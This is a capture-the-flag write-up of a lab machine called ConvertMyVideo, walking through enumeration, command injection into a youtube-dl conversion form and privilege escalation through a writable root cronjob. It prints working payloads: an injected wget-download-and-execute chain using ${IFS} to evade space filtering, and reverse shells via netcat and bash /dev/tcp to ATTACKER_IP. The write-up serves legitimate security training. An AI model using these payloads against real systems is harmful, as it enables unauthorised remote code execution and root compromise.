 # ConvertMyVideo

##### Written: 10/12/2021

##### IP address: 10.10.77.218

---

### [ What is the name of the secret folder? ]

As always, we start things off with a full **nmap** scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- -oN full_nmap 10.10.77.218
```

**Results:**

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
| ssh-rsa 
[REDACTED]
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
| ecdsa-sha2-nistp256 
[REDACTED]
|   256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBKsS7+8A3OfoY8qtnKrVrjFss8LQhVeMqXeDnESa6Do
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like there are only **2** ports open: **22** (SSH) and **80** (HTTP)

Let's take a look at the HTTP webserver:

<img style="float: left;" src="screenshots/screenshot1.png">

We have a simple web page where we can input a Youtube video ID. The page will then supposedly convert the target video to MP3 format for us to download.

Let's run a **Gobuster** scan to enumerate any hidden directories.

```
gobuster dir -u http://10.10.77.218/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,html,txt,js -t 50
```

<img style="float: left;" src="screenshots/screenshot2.png">

From the results, we find the name of the secret folder: **/admin**

---

### [ What is the user to access the secret folder? ]

Let's visit the **/admin** subdirectory:

<img style="float: left;" src="screenshots/screenshot3.png">

Looks like we need some credentials. I tried common credentials like **admin:admin**, but those did not work.

Let's move on and do some manual enumeration.

Looking at the source code of the web page, we can see that it loads in another javascript file called **main.js**:

<img style="float: left;" src="screenshots/screenshot4.png">

**main.js** actually contains the functionality of the page on the client-side:

<img style="float: left;" src="screenshots/screenshot5.png">

We can see that the page takes in the user input and appends it to "https://www.youtube.com/watch?v=". A fair assumption to make is that this url will then be passed to some internal program that is running on the server-side, which actually does the conversion to MP3. Of course, as the machine does not have access to the Internet, the conversion should never work as the machine will not be able to reach Youtube.

<br>

At this stage, the first thought that came to my mind was: **Command Injection**.

If the user input is being passed to a command-line program and is being executed on the shell-level, then perhaps we can inject some of our own OS commands to be run!

<br>

To check whether the input is indeed being passed to a command-line program, let's try to input '**test**':

<img style="float: left;" src="screenshots/screenshot6.png">

We get an interesting error message in the response. If we do a Google search of the error, we find that the error actually comes from an open-source program called **youtube-dl** (https://github.com/ytdl-org/youtube-dl).

<img style="float: left;" src="screenshots/screenshot7.png">

From the Github page, we confirm that this program is indeed a command-line program! This means that command injection most likely the way to go.

<br>

Let's try injecting our own commands. We'll start off by trying to inject the `id` command. 

*(More payloads can be found at https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)*

Let's try a basic bypass using the `;` symbol: 

`test;id;`

<img style="float: left;" src="screenshots/screenshot8.png">

Nice it works! :smile: *(Note: instead of `;`, we can also use* `|`*)*

<br>

Now we can try setting up a **reverse shell** so that we can gain an initial foothold into the machine. 

*(Payload used is from: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)*

I saved the following payload into a file onto my local machine:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

<img style="float: left;" src="screenshots/screenshot9.png">

I then set up a simple HTTP server so that we can download the file onto the target machine. We can then inject the following commands into the web page:

`test;wget http://ATTACKER_IP:8000/shell.sh;chmod +x shell.sh;./shell.sh;`

This will have the target machine download our reverse shell script, make it executable, then execute it.

<img style="float: left;" src="screenshots/screenshot10.png">

Hmmm there seems to be a problem with our payload. If we look closely at the error message, it seems that there is an argument  error with our `wget` command. Most likely, the **spaces** in our payload are being stripped before being sent to the command-line.

To bypass the space stripping, we can use `${IFS}` to replace the spaces.

---

**From:** https://bash.cyberciti.biz/guide/$IFS

<img style="float: left;" src="screenshots/screenshot11.png">

---

Now our payload becomes:

`test;wget${IFS}http://ATTACKER_IP:8000/shell.sh;chmod${IFS}+x${IFS}shell.sh;./shell.sh;`

We send in the payload...

<img style="float: left;" src="screenshots/screenshot12.png">

And we're in! :smiling_imp:

<br>

There is a directory called **admin** in **/var/www/html**:

<img style="float: left;" src="screenshots/screenshot13.png">

There is a hidden file called **.htpasswd** in this **admin** directory:

<img style="float: left;" src="screenshots/screenshot14.png">

This file contains the **user** that can access the **/admin** subdirectory on the web server:

<img style="float: left;" src="screenshots/screenshot15.png">

The user is: **itsmeadmin**

*Note: there's no need to crack the password hash as it is not needed to complete this challenge.*

---

### [ What is the user flag? ]

The **user flag** can be found in the same directory:

<img style="float: left;" src="screenshots/screenshot16.png">

---

### [ What is the root flag? ]

Now that we're in, let's find a way to escalate our privileges.

Doing some digging around the filesystem, I found an interesting file called **clean.sh** in **/var/www/html/tmp**:

<img style="float: left;" src="screenshots/screenshot17.png">

This file is owned by **www-data** and is also writable. Let's look at the contents:

<img style="float: left;" src="screenshots/screenshot18.png">

Just a simple `rm` command...

From my past experiences with CTF challenges, these sort of 'clean-up' scripts are normally run periodically as a **cronjob**. Let's check **/etc/crontab** to see if clean.sh is being run as a cronjob:

<img style="float: left;" src="screenshots/screenshot19.png">

Nothing here...

With that said, it is possible to set up cronjobs without including them in the /etc/crontab file. Hence, let's use a nifty tool called **pspy** to see if this is the case (https://github.com/DominicBreuker/pspy/blob/master/README.md). **pspy** allows us to snoop on processes without the need for root permissions.

<img style="float: left;" src="screenshots/screenshot20.png">

Sure enough, after a minute has passed, we see that the **clean.sh** was indeed run! Furthermore, it was run by user with UID=0, aka **root**!

<br>

Since clean.sh is writeable by us, all we have to do is replace it with a **reverse shell script**:

```
echo 'bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1' > clean.sh
```

Now set up a netcat listener, sit back and wait.

<img style="float: left;" src="screenshots/screenshot21.png">

We're now root!

The root flag can be found in **/root**:

<img style="float: left;" src="screenshots/screenshot22.png">
